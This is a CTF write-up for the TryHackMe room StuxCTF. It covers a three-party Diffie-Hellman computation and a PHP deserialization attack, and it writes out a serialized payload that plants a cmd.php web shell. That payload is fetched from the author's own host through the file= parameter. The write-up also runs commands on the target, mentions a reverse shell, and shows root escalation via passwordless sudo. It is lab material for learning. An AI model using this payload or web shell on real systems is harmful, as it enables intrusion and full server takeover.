

# StuxCTF Write-up


[StuxCTF](https://tryhackme.com/r/room/stuxctf) is a medium level boot2root challenge on TryHackme. This room consists of Diffie-Hellman key exchange, PHP deserialization attack and privilege escalation.

### Table of Contents
- [Enumeration](#enumeration)
- [Diffie-Hellman Key Exchange](#diffie-hellman-key-exchange)
- [Secret Directory](#secret-directory)
- [PHP Deserialization Attack](#php-deserialization-attack)
- [Privilege Escalation](#privilege-escalation)
- [Conclusion](#conclusion)

## Enumeration

As always, we start with a Nmap scan and end up finding 2 open ports: 22 and 80.

```bash
PORT   STATE SERVICE REASON  VERSION
22/tcp open  ssh     syn-ack OpenSSH 7.2p2 Ubuntu 4ubuntu2.8 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   2048 e8:da:b7:0d:a7:a1:cc:8e:ac:4b:19:6d:25:2b:3e:77 (RSA)
| ssh-rsa AAAAB3NzaC1yc2EAAAADAQABAAABAQDHy6u+PbjzbKZyYYJwrdwKQPHa7m8AgiJwNQSx4Tp1IOOf2y8QZTm3/iln/TJsLNdRuOORhMymecTm0H8X+Oqq481qx5hcLb4ax88tzD/yHMYIWpgMVphjZRzvBpuYmL6tS25ltX5C8VUyIfAAp5UfmwTJTpQc6yUsf/SzA1JfHRMKYrKarm+HyiTA7Md5en7DkYf/Cc3D2RTvgmzyUEES1sWXIKlqG+Hw5Q3LBTf+x3Klv4j/nTjRnQ11uGXQUV+bf/hctQ+pd5lcOACdyvW1XDOoKVVFy794JUBZIE8KFJlDF9kDDk+/9KcXPFmwHRc7EhcvoOXI0IgdY9hHbA5v
|   256 c1:0c:5a:db:6c:d6:a3:15:96:85:21:e9:48:65:28:42 (ECDSA)
| ecdsa-sha2-nistp256 AAAAE2VjZHNhLXNoYTItbmlzdHAyNTYAAAAIbmlzdHAyNTYAAABBBNClIhCJbrZ4E0DajP2/THDkSRCFIIz+E4n0lwO2uwYKXLH+ZkmJfWPIS0G1imPiAl86M4waW46uhq+zd2zf7nY=
|   256 0f:1a:6a:d1:bb:cb:a6:3e:bd:8f:99:8d:da:2f:30:86 (ED25519)
|_ssh-ed25519 AAAAC3NzaC1lZDI1NTE5AAAAIPhnACR59xmsr8aznDId/sXX28PkUm6kKDeoNMHsgY3O
80/tcp open  http    syn-ack Apache httpd 2.4.18 ((Ubuntu))
| http-methods: 
|_  Supported Methods: POST OPTIONS GET HEAD
| http-robots.txt: 1 disallowed entry 
|_/StuxCTF/
|_http-server-header: Apache/2.4.18 (Ubuntu)
|_http-title: Default Page
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel
```

Visiting the website doesn't give us much information. It seems like an empty page. 



When we inspect the source code, we find a comment that consists of numbers. 

```html
<html>
	<head>
		<title>Default Page</title>
	</head>
	<body>
		<!-- The secret directory is...
		p: 9975298661930085086019708402870402191114171745913160469454315876556947370642799226714405016920875594030192024506376929926694545081888689821796050434591251;
		g: 7;
		a: 330;
		b: 450;
		g^c: 6091917800833598741530924081762225477418277010142022622731688158297759621329407070985497917078988781448889947074350694220209769840915705739528359582454617;
		-->
		is blank....
	</body>
</html>
```

We infer that these numbers are related to Diffie-Hellman key exchange. Though DH known is 2 parties, here we have 3 parties. Like Alice and Bob. We have Charlie as well.

## Diffie-Hellman Key Exchange

When we have 3 parties, the key exchange is done as follows (from [Wikipedia](https://en.wikipedia.org/wiki/Diffie%E2%80%93Hellman_key_exchange#Operation_with_more_than_two_parties)):
<ol><li>The parties agree on the algorithm parameters 
<i>p</i> and <i>g</i>.</li>
<li>The parties generate their private keys, named <i>a</i>, <i>b</i>, and <i>c</i>.</li>
<li>Alice computes <i><b>g<sup>a</sup> mod p</b></i> and sends it to Bob.</li>
<li>Bob computes <b>(<var style="padding-right: 1px;">g<sup>a</sup></var>)<sup><var style="padding-right: 1px;">b</var></sup> mod p = <i>g<sup>ab</sup> mod p</i></b> and sends it to Carol.</li>
<li>Carol computes <b>(<var style="padding-right: 1px;">g<sup>ab</sup></var>)<sup><var style="padding-right: 1px;">c</var></sup> mod p = <i>g<sup>abc</sup> mod p</i></b> and uses it as her secret.</li>
<li>Bob computes <i><b>g<sup>b</sup> mod p</b></i> and sends it to Carol.</li>
<li>Carol computes <b>(<var style="padding-right: 1px;">g<sup>b</sup></var>)<sup><var style="padding-right: 1px;">c</var></sup> mod p = <i>g<sup>bc</sup> mod p</i></b> and sends it to Alice.</li>
<li>Alice computes <b>(<var style="padding-right: 1px;">g<sup>bc</sup></var>)<sup><var style="padding-right: 1px;">a</var></sup> mod p = <i>g<sup>bca</sup> mod p</i> = <i>g<sup>abc</sup> mod p</i></b> and uses it as her secret.</li>
<li>Carol computes <i><b>g<sup>c</sup> mod p</b></i> and sends it to Alice.</li>
<li>Alice computes <b>(<var style="padding-right: 1px;">g<sup>c</sup></var>)<sup><var style="padding-right: 1px;">a</var></sup> mod p = <i>g<sup>ca</sup> mod p</i></b> and sends it to Bob.</li>
<li>Bob computes <b>(<var style="padding-right: 1px;">g<sup>ca</sup></var>)<sup><var style="padding-right: 1px;">b</var></sup> mod p = <i>g<sup>cab</sup> mod p</i> = <i>g<sup>abc</sup> mod p</i></b> and uses it as his secret.</li></ol>

So, we can calculate the shared secret key using the given numbers, since we have the values of <i>p</i>, <i>g</i>, <i>a</i>, <i>b</i> and <i>g<sup>c</sup></i>.

```python
p=9975298661930085086019708402870402191114171745913160469454315876556947370642799226714405016920875594030192024506376929926694545081888689821796050434591251
g=7
a=330
b=450
gexpc=6091917800833598741530924081762225477418277010142022622731688158297759621329407070985497917078988781448889947074350694220209769840915705739528359582454617

# this is triple DH key exchange

gca = pow(gexpc,a,p) 
gcb = pow(gca,b,p) 
print(str(gcb)[:128]) 
```

When we run the above code, we get the shared secret key. 

```bash
$ python3 DH.py
47315028937264895539131328176684350732577039984023005189203993885687328953804202704977050807800832928198526567069446044422855055
```

We got the shared secret key. Now, we can enter the secret directory.

## Secret Directory

When we visit the secret directory, we find such a page hinting at ?file= parameter.

```html
<!DOCTYPE html>
    <head>
        <title>StuxCTF</title>
        
    </head>
        <body>

        <!-- hint: /?file= -->
        <div class="container">
            <div class="jumbotron">
				<center>
					<h1>Follow the white rabbit..</h1>
				</center>
            </div>
        </div>
    </body>
</html>
```

I tested for several LFI payloads but none of them worked. Then I tried to read the source code of the page. 

```bash
$ curl http://10.10.186.176/47315028937264895539131328176684350732577039984023005189203993885687328953804202704977050807800832928198526567069446044422855055/?file=index.php

3d3d67432b384349794a47502b7757623068324c386f67507641696369786a50355232626939435067414349676f67507641696369786a5030425861794e326376776a50694d6e617534576174354363684a48647a523362764a324c7a70324c7a52585a7a4e585969307a59794e484930425861794e32633841434967414349674143494b347a4c67496e5938344464776c6d636a4e334c38346a497a706d4c756c5762754d6a4c78456a4c78305365795657647870324c7a70324c7a52585a7...
```

## PHP Deserialization Attack

We got a pretty long hex encoded string. After I decoded it, I got a reverse base64 encoded string. So, I decoded it again and got the source code of the page.

```php
<?php
error_reporting(0);
class file {
        public $file = "dump.txt";
        public $data = "dump test";
        function __destruct(){
                file_put_contents($this->file, $this->data);
        }
}


$file_name = $_GET['file'];
if(isset($file_name) && !file_exists($file_name)){
        echo "File no Exist!";
}

if($file_name=="index.php"){
        $content = file_get_contents($file_name);
        $tags = array("", "");
        echo bin2hex(strrev(base64_encode(nl2br(str_replace($tags, "", $content)))));
}

unserialize(file_get_contents($file_name));
?>
```


I can use the `file` class to write a file. So let's perform a PHP deserialization attack.

PHP deserialization attack is a type of attack where an attacker could create a malicious object and serialize it. When the server unserializes the object, the malicious code gets executed.

The `unserialize` function gets a string and converts it back to an object. 

To create a malicious object, I used the following code.

```php
<?php
class file 
{

	public $file = 'cmd.php';
	public $data = '<?php if(isset($_REQUEST["cmd"])){ echo "<pre>"; $cmd = ($_REQUEST["cmd"]); system($cmd); echo "</pre>"; die; }?>';
}

$serial = serialize(new file);
print $serial;
print("\n");
?>
```

I saved that code and executed on my local machine to get the serialized object. 

```bash
$ php serialize.php
O:4:"file":2:{s:4:"file";s:7:"cmd.php";s:4:"data";s:113:"<?php if(isset($_REQUEST["cmd"])){ echo "<pre>"; $cmd = ($_REQUEST["cmd"]); system($cmd); echo "</pre>"; die; }?>";}
```

I got the string. Now I can use this string for the PHP deserialization attack. Also, keep in mind that the `file_get_contents` function can read remote files. So I can host that string on my server and read it from there.

```bash
curl http://10.10.186.176/47315028937264895539131328176684350732577039984023005189203993885687328953804202704977050807800832928198526567069446044422855055/?file=http://10.9.3.149/a.txt
```

I successfully wrote the file. Now I can execute commands on the server.

```bash
curl http://10.10.186.176/47315028937264895539131328176684350732577039984023005189203993885687328953804202704977050807800832928198526567069446044422855055/cmd.php?cmd=whoami

<pre>www-data
</pre>
```

Works! After I quickly got a reverse shell and read the user flag in the home directory.

```bash
www-data@ubuntu:/home/grecia$ ls
user.txt
www-data@ubuntu:/home/grecia$ cat user.txt
XXXXXXXXXXXXXXXXXXXXXXXX
```

## Privilege Escalation

I downloaded the `linpeas.sh` script and ran it on the server. Found that the `www-data` user can run `sudo` without a password.

```bash
╔══════════╣ Checking 'sudo -l', /etc/sudoers, and /etc/sudoers.d
╚ https://book.hacktricks.xyz/linux-hardening/privilege-escalation#sudo-and-suid                                                                                         
Matching Defaults entries for www-data on ubuntu:                                                                                                                        
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User www-data may run the following commands on ubuntu:
    (ALL) NOPASSWD: ALL
```

So becoming root was pretty easy.

```bash
www-data@ubuntu:/tmp$ sudo -l
sudo -l
Matching Defaults entries for www-data on ubuntu:
    env_reset, mail_badpass,
    secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User www-data may run the following commands on ubuntu:
    (ALL) NOPASSWD: ALL
www-data@ubuntu:/tmp$ sudo su
sudo su
root@ubuntu:/tmp# cd /root
cd /root
root@ubuntu:~# ls
ls
root.txt
root@ubuntu:~# cat root.txt
cat root.txt
XXXXXXXXXXXXXXXXXXXX
```

And that's it. We got the root flag as well.

## Conclusion

That was a fun and interesting room. I brushed up my knowledge on DH Key Exchange and PHP Deserialization attack.

